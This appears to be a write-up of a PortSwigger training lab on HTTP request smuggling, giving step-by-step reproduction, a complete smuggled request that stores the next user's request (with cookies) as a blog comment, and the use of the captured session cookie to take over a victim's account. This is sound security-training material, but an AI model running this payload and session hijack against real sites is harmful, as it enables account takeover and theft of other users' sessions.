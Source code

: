# Exploiting HTTP request smuggling to capture other users' requests

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## Reproduction and proof of concept

1. Visit a blog post and post a comment.
2. Send the ``comment-post`` request to Burp Repeater, shuffle the body parameters so the ``comment`` parameter occurs last, and make sure it still works.
3. Increase the ``comment-post`` request's ``Content-Length`` to 400, then smuggle it to the back-end server:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.

A few times, like around 5:

![HTTP header smuggling](/_static/images/smuggling2.png)

Then headers as a comment, but not enough yet. So, repeating with `700`, then `800` (nearly there), and finally, with a content-length of `810`:

![HTTP header smuggling](/_static/images/smuggling3.png)

5. Intercept, `carlos`'s login, change the user's `Cookie` header from the comment, and the csrf token from the one used in the comments requests, and use it to access his account.

![HTTP header smuggling](/_static/images/smuggling4.png)

## Exploitability

An attacker will need to smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.
